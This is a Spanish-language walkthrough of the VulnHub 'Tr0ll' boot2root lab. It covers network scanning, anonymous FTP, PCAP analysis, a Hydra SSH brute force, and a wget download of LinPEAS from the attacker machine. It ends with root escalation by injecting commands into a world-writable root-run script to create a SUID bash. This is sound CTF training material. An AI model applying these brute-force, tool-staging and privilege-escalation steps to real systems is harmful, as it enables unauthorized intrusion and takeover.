







# Tr0ll (VulnHub) en VMware — WriteUp completo

> **Aviso (ético y legal):** Este laboratorio está documentado **solo con fines educativos** en un entorno controlado. No apliques estas técnicas sobre sistemas reales sin autorización.

---

## Descripción de la máquina (traducción)

**Descripción**  
**Volver arriba**  
**Tr0ll** fue inspirada por el troleo constante de las máquinas dentro de los laboratorios de OSCP.

El objetivo es simple: **obtener root** y conseguir `Proof.txt` del directorio `/root`.

**No apta para personas que se frustran fácilmente.** Aviso: **hay trolls por delante**.

**Dificultad:** Beginner  
**Tipo:** boot2root

### Qué significa esto

- **Beginner** indica que la máquina está pensada para empezar, pero eso no significa que sea lineal.
- **boot2root** significa que el objetivo final es comprometer la máquina por completo hasta llegar a **root**.
- El nombre y la descripción ya te avisan de algo importante: el autor va a jugar contigo y va a meter pistas falsas, salidas engañosas y rutas poco intuitivas.

---

## 1) Configuración de red: por qué usamos adaptador NAT

Antes de encender las máquinas, configuramos **Kali** y **Tr0ll** en **adaptador NAT**.

### ¿Por qué NAT?

Porque así ambas máquinas:
- quedan en una red virtual controlada por VMware,
- reciben IPs dentro del mismo rango privado,
- pueden verse entre sí,
- y, además, pueden salir a Internet a través del servicio NAT de VMware.

### Qué pasa internamente

Con NAT, VMware crea una red interna, por ejemplo:

- `192.168.184.0/24`

Dentro de esa red:
- tus VMs reciben IPs privadas,
- VMware actúa como gateway y DHCP,
- y traduce el tráfico hacia la red real o Internet.

Esto es muy útil en laboratorios porque:
- no expones la máquina vulnerable a tu red física,
- tienes aislamiento razonable,
- y el descubrimiento de red es sencillo.

---

## 2) Arranque de Tr0ll

Encendemos ambas máquinas.

En la máquina Tr0ll aparece esto:

📷 **Imagen 1 — Consola inicial de Tr0ll**


La máquina pide login local, pero no conocemos ninguna credencial, así que el siguiente paso lógico no es adivinar usuarios en consola, sino identificar la IP y enumerar lo expuesto por red.

---

## 3) Identificar nuestra IP y rango de red en Kali

En Kali ejecutamos:

```bash
ip a
```

Nos interesa especialmente la interfaz `eth0`.

📷 **Imagen 2 — IP de Kali y rango**


### Qué buscamos en esta salida

La parte clave es:

```text
inet 192.168.184.128/24
```

Esto significa:
- **IP de Kali:** `192.168.184.128`
- **máscara:** `/24`
- **rango de red:** `192.168.184.0/24`

### Por qué es importante

Porque si la máquina víctima también está en adaptador NAT de VMware, va a recibir una IP dentro de ese mismo rango.  
Eso nos permite hacer descubrimiento de hosts en toda la subred.

---

## 4) Descubrir la IP de la víctima con Nmap (`-sn`)

Ejecutamos:

```bash
sudo nmap -n -sn 192.168.184.128/24
```

### Explicación detallada de flags

- `sudo`  
  Nmap puede necesitar privilegios para ciertos tipos de descubrimiento y envío de paquetes.

- `-n`  
  Desactiva la resolución DNS.  
  Nmap no intentará convertir IPs en nombres de host.

  **Ventajas:**
  - más rápido,
  - menos tráfico adicional,
  - salida más limpia.

- `-sn`  
  Es un **Ping Scan**.  
  Le dice a Nmap:
  - descubre qué hosts están activos,
  - **pero no escanees puertos**.

  Es decir:
  - ✅ detecta equipos vivos
  - ❌ no enumera servicios todavía

- `192.168.184.128/24`  
  Es el rango a escanear.  
  Aunque hayas escrito una IP concreta (`.128`), con `/24` realmente estás diciendo: escanea toda la red `192.168.184.0/24`.

### Qué hace este comando en resumen

- recorre la red `192.168.184.0/24`,
- envía paquetes de descubrimiento,
- detecta qué IPs responden,
- no toca puertos,
- no consulta DNS.

### Resultado observado

```text
192.168.184.1
192.168.184.2
192.168.184.130
192.168.184.254
192.168.184.128
```

La `.128` es nuestra Kali, así que la candidata a víctima es:

- `192.168.184.130`

---

## 5) Qué son las IP `.1`, `.2` y `.254` en VMware NAT

### `192.168.184.1`
Suele ser el **gateway NAT** de VMware.

Su función:
- sacar el tráfico de las VMs hacia la red real o Internet,
- actuar como puerta de enlace.

### `192.168.184.2`
Suele actuar como **DHCP** de VMware.

Su función:
- asignar IPs automáticamente a las VMs,
- mantener el rango de direcciones,
- responder a solicitudes DHCP al arrancar.

### `192.168.184.254`
Suele ser otra interfaz interna usada por los servicios de VMware NAT/infraestructura virtual.

### Conclusión

Como:
- `.128` es Kali,
- `.1`, `.2` y `.254` son infraestructura de VMware,

por descarte la víctima es:

- **`192.168.184.130`**

---

## 6) Confirmar Tr0ll con Nmap completo

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.130
```

### Explicación detallada

- `-p-` → todos los puertos TCP
- `--open` → solo mostrar abiertos
- `-sC` → scripts NSE por defecto
- `-sV` → versiones y banners
- `-Pn` → asume host activo
- `-T5` → timing agresivo
- `-vvv` → muy verboso
- `-oN fullscan` → guardar a archivo

### Resultado relevante

- `21/tcp` → FTP (`vsftpd 3.0.2`) con **Anonymous habilitado**
- `22/tcp` → SSH (`OpenSSH 6.6.1p1`)
- `80/tcp` → HTTP (`Apache 2.4.7`)
- `robots.txt` → revela `/secret`

---

## 7) FTP (21): acceso anónimo y hallazgo del PCAP

Nmap ya nos había avisado:

```text
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

Comprobamos:

```bash
ftp -a 192.168.184.130
```

Dentro:

```text
ftp> ls
```

Y aparece:

```text
lol.pcap
```

Descargamos:

```text
ftp> get lol.pcap
```

Esto copia el PCAP desde la víctima a Kali.  
Es una pista clarísima: el autor ha dejado tráfico capturado que seguramente contiene información útil.

---

## 8) HTTP (80): página inicial y robots.txt

Abrimos:

- `http://192.168.184.130`

📷 **Imagen 3 — Página principal**


La web se ríe de nosotros, muy en la línea de la máquina.

### 8.1 `robots.txt`

Visitamos:

- `http://192.168.184.130/robots.txt`

Contenido:

```text
User-agent:*
Disallow: /secret
```

### Por qué es interesante

`robots.txt` no protege nada.  
Solo le dice a buscadores qué rutas no indexar.  
En CTF, muchas veces revela caminos importantes.

Así que, aunque diga “Disallow”, **se prueba igual**.

Entramos a:

- `http://192.168.184.130/secret/`

📷 **Imagen 4 — `/secret/`**


Sigue el troleo.

---

## 9) Abrir `lol.pcap` con Wireshark

Abrimos el PCAP y vamos a:

- **Analyze → Follow → TCP Stream**

Esto reconstruye la conversación TCP.

### Stream relevante

Aparece una sesión FTP completa donde se descarga un archivo llamado:

- `secret_stuff.txt`

Y se ve también un mensaje dentro de ese fichero:

```text
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P

Sucks, you were so close... gotta TRY HARDER!
```

### Qué significa

Que el directorio interesante no era `/secret/`, sino probablemente:

- `sup3rs3cr3tdirlol`

---

## 10) Probar el directorio secreto real

Entramos a:

- `http://192.168.184.130/sup3rs3cr3tdirlol/`

📷 **Imagen 5 — `sup3rs3cr3tdirlol`**


Aquí sí aparece algo útil:
- un fichero llamado `roflmao`

Al hacer clic se descarga automáticamente.

Luego lo movemos al directorio de trabajo:

```bash
mv ~/Downloads/roflmao .
```

---

## 11) Analizar `roflmao` con `file`

```bash
file roflmao
```

Salida:

```text
roflmao: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=..., not stripped
```

### Qué significa esto

- es un binario ELF de Linux
- de 32 bits
- para arquitectura Intel i386
- enlazado dinámicamente
- no está “stripped”, así que conserva más información útil para análisis

---

## 12) `strings roflmao`: encontrar una pista dentro del binario

```bash
strings roflmao
```

La cadena importante es:

```text
Find address 0x0856BF to proceed
```

Esto parece una instrucción directa.

Como la máquina es troll, probamos esa dirección hexadecimal como ruta web:

- `http://192.168.184.130/0x0856BF/`

📷 **Imagen 6 — `/0x0856BF/`**


---

## 13) Revisar `good_luck/`

Entramos a:

- `http://192.168.184.130/0x0856BF/good_luck/`

📷 **Imagen 7 — `good_luck/`**


Dentro aparece un TXT con posibles usuarios:

```text
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

---

## 14) Revisar `this_folder_contains_the_password/`

Entramos a:

- `http://192.168.184.130/0x0856BF/this_folder_contains_the_password/`

📷 **Imagen 8 — `this_folder_contains_the_password/`**


Dentro hay un `Pass.txt`.

Contenido:

```text
Good_job_:)
```

A primera vista parece una contraseña, pero en una máquina troll conviene desconfiar.

---

## 15) Hydra contra SSH: primera hipótesis

Guardamos:
- usuarios en `users`
- contraseña en `Pass.txt`

Y probamos:

```bash
hydra -L users -P Pass.txt ssh://192.168.184.130
```

### Por qué tiene sentido probarlo

Porque ya tenemos:
- una lista de usuarios
- una posible contraseña
- un servicio SSH expuesto

### Resultado

No aparece ninguna credencial válida:
- `0 valid password found`

---

## 16) Pensar como el autor: quizá la password es el nombre del archivo

Aquí está la parte buena del razonamiento.

La ruta se llamaba:

- `this_folder_contains_the_password`

y el archivo:

- `Pass.txt`

En una máquina troll, tiene mucho sentido pensar que:
- el contenido es señuelo
- el nombre del archivo es la contraseña real

Probamos entonces con:

- contraseña `Pass.txt`

Y relanzamos Hydra.

### Resultado válido

```text
[22][ssh] host: 192.168.184.130   login: overflow   password: Pass.txt
```

✅ Credencial válida:
- `overflow : Pass.txt`

---

## 17) Acceso SSH como `overflow`

Conectamos:

```bash
ssh overflow@192.168.184.130
```

La primera vez se añade la huella a `known_hosts`.

Una vez dentro, el sistema muestra:

```text
Could not chdir to home directory /home/overflow: No such file or directory
```

### Qué significa

- el usuario existe y funciona
- pero su home no existe o no está disponible

No impide el acceso, simplemente lo avisa.

---

## 18) Empezar la escalada con LinPEAS

En Kali localizamos LinPEAS y lo servimos:

```bash
python3 -m http.server 80
```

En la víctima vamos a `/tmp`:

```bash
cd /tmp
```

### Por qué `/tmp`

Porque:
- es escribible por usuarios normales
- está pensado para ficheros temporales
- suele ser el mejor sitio para descargar herramientas durante post-explotación

Luego descargamos:

```bash
wget http://192.168.184.128/linpeas.sh
```

Esa IP es Kali, donde estaba corriendo el servidor HTTP.

Después:

```bash
chmod +x linpeas.sh
```

y ya se puede ejecutar.

---

## 19) Hallazgo clave de LinPEAS

El punto importante fue:

```text
/lib/log/cleaner.py
```

Listado entre los ficheros escribibles.

### Por qué esto importa

Porque es:
- un archivo fuera del home
- con nombre muy sospechoso
- y además escribible

Eso ya sugiere:
- tarea automatizada
- script ejecutado por root
- oportunidad de privesc

---

## 20) Revisar permisos de `/lib/log/cleaner.py`

```bash
ls -la /lib/log/cleaner.py
```

Salida:

```text
-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

### Qué significa

Permisos `777`:
- lectura, escritura y ejecución para todos

Y además el propietario es `root`.

Eso es una mala configuración brutal:
- root posee el archivo
- pero cualquier usuario puede modificarlo

---

## 21) Leer el script y entenderlo

```bash
cat /lib/log/cleaner.py
```

Contenido:

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

### Qué hace este código

- usa Python
- llama a `os.system(...)`
- ejecuta:

```bash
rm -r /tmp/*
```

Es decir:
- borra recursivamente el contenido de `/tmp`

### Qué nos revela esto

Que probablemente:
- se ejecuta de forma periódica
- limpia `/tmp` cada cierto tiempo
- y lo hace como root

Eso explica por qué se borraba contenido temporal.

---

## 22) Modificar `cleaner.py` para conseguir una Bash SUID

Añadimos:

```python
os.system('cp /bin/bash /tmp/bash')
os.system('chmod u+s /tmp/bash')
```

### Qué hace esto

1. copia `/bin/bash` a `/tmp/bash`
2. activa el bit **SUID** sobre esa copia

Si el script lo ejecuta root, entonces:
- `/tmp/bash` quedará propiedad de root
- y con SUID activo

---

## 23) Esperar y verificar `/tmp/bash`

Al cabo de un rato:

```bash
ls -la /tmp
```

Muestra:

```text
-rwsr-xr-x  1 root root 986672 Mar 11 12:28 bash
```

### Qué significa esa `s`

Indica que el bit **SUID** está activo.

Eso significa que, cuando el binario se ejecute, podrá heredar el **UID efectivo** del propietario (`root`).

---

## 24) GTFOBins y `bash -p`

Consultando GTFOBins para `bash` en contexto SUID, el camino correcto es:

```bash
./bash -p
```

### Por qué `-p`

Bash, por seguridad, puede bajar privilegios cuando detecta SUID.  
La flag `-p` le dice que preserve los privilegios efectivos.

### Resultado

```bash
bash-4.3# whoami
root
```

✅ Escalada conseguida.

---

## 25) Leer el proof final

Ya como root:

```bash
cd /root
ls
cat proof.txt
```

Contenido:

```text
Good job, you did it!

702a8c18d29c6f3ca0d99ef5712bfbdc
```

Ese es el **proof** final.

---

## Conclusiones finales

Esta máquina enseña muy bien varias ideas clave:

### 25.1 No confíes en la ruta más obvia
- `/secret/` era un señuelo
- el directorio útil era `sup3rs3cr3tdirlol`

### 25.2 Los PCAP pueden ser minas de información
El `lol.pcap` reveló:
- comandos FTP
- archivos transferidos
- el nombre del directorio secreto real

### 25.3 `strings` sigue siendo una herramienta potentísima
Con `roflmao`, `strings` nos dio la pista clave:
- `0x0856BF`

### 25.4 LinPEAS no te da root por sí solo
Lo que hace es señalar oportunidades.  
Aquí la oportunidad real era:

- `/lib/log/cleaner.py` escribible por todos

### 25.5 Un script ejecutado por root y modificable por cualquiera es casi root regalado
Si root ejecuta un script periódicamente y tú puedes escribir en él, la escalada está a un paso.

### 25.6 Entender SUID importa de verdad
No basta con ver una `s`.  
Hay que entender:
- qué significa
- quién es el propietario
- y por qué `bash -p` conserva privilegios

---

## Resumen técnico de la ruta de explotación

1. Configuración en NAT
2. Descubrimiento de IP con `ip a` + `nmap -sn`
3. Identificación de la víctima `192.168.184.130`
4. Escaneo completo con Nmap
5. FTP anónimo → descarga de `lol.pcap`
6. Web + `robots.txt` → `/secret/`
7. Análisis del PCAP con Wireshark → pista `sup3rs3cr3tdirlol`
8. Descarga de `roflmao`
9. `file` + `strings roflmao` → pista `0x0856BF`
10. Navegación a `/0x0856BF/`
11. Obtención de usuarios y deducción de que la password es `Pass.txt`
12. Hydra contra SSH → `overflow : Pass.txt`
13. Acceso SSH como `overflow`
14. Descarga y ejecución de LinPEAS
15. Identificación de `/lib/log/cleaner.py` como escribible
16. Inyección de comandos para copiar `/bin/bash` y poner SUID
17. Esperar a que root ejecute el script
18. Ejecutar `/tmp/bash -p`
19. Acceso root
20. Lectura de `/root/proof.txt`

---

## Estado del laboratorio

✅ Máquina completada  
✅ Root conseguido  
✅ Proof recuperado  
✅ Ruta documentada paso a paso
